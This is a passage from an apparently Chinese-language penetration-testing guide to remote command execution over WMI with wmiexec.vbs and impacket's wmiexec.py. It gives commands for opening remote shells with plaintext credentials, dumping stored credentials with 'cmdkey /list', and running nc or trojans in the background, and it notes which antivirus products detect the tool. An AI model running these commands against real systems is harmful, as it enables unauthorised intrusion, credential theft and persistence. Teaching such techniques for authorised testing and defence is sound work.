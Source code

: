 **常用命令:**

```bash
###获取半交互式shell
cscript.exe //nologo wmiexec.vbs /shell 192.168.17.138 test !@#123QWE
###在远程系统上执行单条命令
cscript.exe wmiexec.vbs /cmd 192.168.17.138 test !@#123QWE "cmdkey /list"
###在远程系统上执行 bat 脚本
cscript.exe wmiexec.vbs /cmd 192.168.17.138 test !@#123QWE c:\programdata\test.bat
```

*其它参数:*

- `-wait5000` 表示这个命令等待5s后再读取结果，用于运行“运行时间长”的命令。 
- `-persist` 程序会在后台运行，不会有结果输出，而且会返回这个命令进程的 PID，方便结束进程，用于运行 nc 或者木马程序。

下面这段代码在脚本的一开始，是控制结果文件路径、文件名、以及默认代码执行时间的，可以自行更改。

```bash
Const Path = "C:\" 
Const FileName = "wmi.dll" 
Const timeOut = 1200
```

**工具说明:**

- 需要远程系统启动 Windows Management Instrumentation 服务，开放135端口
- 远程系统的本地安全策略的“网络访问: 本地帐户的共享和安全模式”应设为“经典-本地用户以自己的身份验证”
- wmicexec.vbs 会以管理员权限在远程系统上执行命令
- virustotal 显示 wmiexec.vbs 会被 Kaspersky、Symantec 和 ZoneAlarm 查杀。

#### impackets wmiexec

使用impackets wmiexec执行命令测试，执行命令可以回显。在Linux跨window渗透时候经常使用。

```bash
#登陆远程机器
python wmiexec.py administrator:Web12345@192.168.63.150
```

![](/img/hack/远程代码执行/post/1d54a2c2-f7f9-4a3d-9464-953618fe1581.jpg)
